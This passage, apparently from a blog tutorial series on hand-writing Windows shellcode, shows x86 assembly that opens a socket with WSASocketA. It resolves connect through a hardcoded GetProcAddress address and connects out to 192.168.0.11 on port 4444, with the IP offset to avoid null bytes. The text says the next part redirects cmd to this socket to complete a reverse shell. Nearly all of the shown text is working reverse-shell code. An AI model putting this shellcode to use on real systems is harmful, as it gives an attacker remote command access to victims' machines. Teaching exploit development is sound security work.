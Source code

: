 ~~~
.callWSASocketA:
	xor ebx, ebx		;clear ebx
	push ebx;		;dwFlags=NULL
	push ebx;		;g=NULL
	push ebx;		;lpProtocolInfo=NULL
	
	xor ecx, ecx		;clear ecx
	mov cl, 0x6		;protocol=6
	push ecx

	inc ebx			;ebx==1
	push ebx		;type=1
	inc ebx			;af=2
	push ebx

	call eax		;call WSASocketA

	push eax		;save eax in edx
	pop edi			;...

.getConnect:
	xor eax, eax

	mov eax, 0x74636590     ;'\x90tce'
	shr eax, 8
	push eax
	push 0x6e6e6f63     ;'nnoc'
	push esp	    ;pointer to the string

	push ebp	    ;socket handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx

; Call connect
	;set up sockaddr_in
	mov ebx, 0x1c11b9d1	;the IP plus 0x11111111 so we avoid NULLs (IP=192.168.0.11)
	sub ebx, 0x11111111	;subtract from ebx to obtain the real IP
	push ebx		;push sin_addr
	push word 0x5c11	;0x115c = (port 4444)

	xor ebx, ebx
	mov bl, 2
	push bx	
	mov edx, esp

	push byte 0x10
	push edx
	push edi

	call eax
~~~

After running it we get:

![3-dbg5]({{ "/assets/media/manualshellcode/shellcode_connect.png" | absolute_url }})

In the next part we will finally redirect `cmd` to our socket and get our complete shellcode.

